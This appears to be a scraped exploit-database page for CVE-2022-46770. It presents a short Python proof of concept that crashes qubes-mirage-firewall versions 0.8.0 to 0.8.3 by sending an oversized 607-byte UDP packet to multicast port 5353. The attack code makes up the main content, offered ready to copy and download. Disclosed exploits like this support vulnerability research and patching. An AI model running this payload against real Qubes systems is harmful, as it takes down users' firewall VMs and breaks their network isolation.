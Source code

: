```yaml
---
title: Qubes Mirage Firewall 0.8.3 Denial Of Service exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171610&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-01
fetch_date: 2025-10-04T11:20:17.641193
---
```


# Qubes Mirage Firewall 0.8.3 Denial Of Service exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Qubes Mirage Firewall 0.8.3 Denial Of Service CVE-2022-46770

2023-03-31 | CVSS 7.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171610
# Exploit Title: qubes-mirage-firewall v0.8.3 - Denial Of Service (DoS)
# Date: 2022-12-04
# Exploit Author: Krzysztof Burghardt <krzysztof@burghardt.pl>
# Vendor Homepage: https://mirage.io/blog/MSA03
# Software Link: https://github.com/mirage/qubes-mirage-firewall/releases
# Version: >= 0.8.0 & < 0.8.4
# Tested on: Qubes OS
# CVE: CVE-2022-46770

#PoC exploit from https://github.com/mirage/qubes-mirage-firewall/issues/166

#!/usr/bin/env python3

from socket import socket, AF_INET, SOCK_DGRAM

TARGET = "239.255.255.250"

PORT = 5353

PAYLOAD = b'a' * 607

s = socket(AF_INET, SOCK_DGRAM)

s.sendto(PAYLOAD, (TARGET, PORT))
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)